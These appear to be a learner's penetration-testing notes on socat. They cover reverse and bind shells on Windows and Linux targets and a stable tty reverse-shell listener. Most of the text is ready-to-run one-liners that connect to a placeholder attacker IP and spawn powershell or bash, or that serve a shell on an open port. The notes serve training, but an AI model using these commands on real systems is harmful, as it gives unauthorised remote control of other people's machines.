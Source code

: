On Windows we would use this command to connect back:
```
socat TCP:<Attacker-IP>:<Attacker-PORT> EXEC:powershell.exe,pipes
```

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:
`socat TCP:<attacker-IP>:<attacker-port> EXEC:"bash -li"`

#### My Xp:

> This `Socat` command provides hell of a shell. I was even able to connect back to my ssh (running) service from the generated shell prompt.


<ins>Bind Shells</ins>


On a Linux target we would use the following command:
```
socat TCP-L:<PORT> EXEC:"bash -li"
```

On a Windows target we would use this command for our listener:
```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

#### NOTE:
We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.


payload script(bind shell) on any attacking machine:
```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
---------------------------------------------------------------------------------

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell.

This will only work when the target is Linux, but is significantly more stable. 


Here is the new listener syntax:
```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
We're connecting two points together.

In this case those points are a listening port, and a file.

#### NOTE:
Specifically, we are allocating a new tty, and setting the echo to be zero. This is approximately ***equivalent*** to using the Ctrl + Z, stty raw -echo; fg trick with a netcat shell -- with the added bonus of being immediately stable and allocating a full tty.
